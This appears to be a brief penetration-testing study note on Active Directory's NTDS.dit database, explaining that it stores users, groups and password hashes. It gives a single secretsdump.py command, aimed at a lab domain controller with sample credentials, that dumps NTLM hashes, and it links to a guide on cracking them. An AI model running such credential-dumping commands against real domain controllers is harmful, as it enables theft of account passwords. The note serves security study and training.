 ## **NTDS.dit Overview**

### **What is it ?**

- A database used to store AD data. This data includes:
	- User information
	- Group information
	- Security descriptors
	- And oh yeah, password hashes


## **General Usage**

We can use the tool `secretsdump.py` to dump out the NTDS.dit secrets

```powershell
# secretsdump.py <domain/user>:'password'@DC-IP-ADDRESS -just-dc-ntlm
$ secretsdump.py MARVEL.local/hawkeye:'Password1@'@192.168.0.149 -just-dc-ntlm
```

You can learn how to sort and crack the credentials from [here](https://sec-fortress.github.io/posts/articles/posts/Sorting%20Dumped%20Credentials%20From%20NTDS.dit%20With%20LibreOffice%20Calc.html)


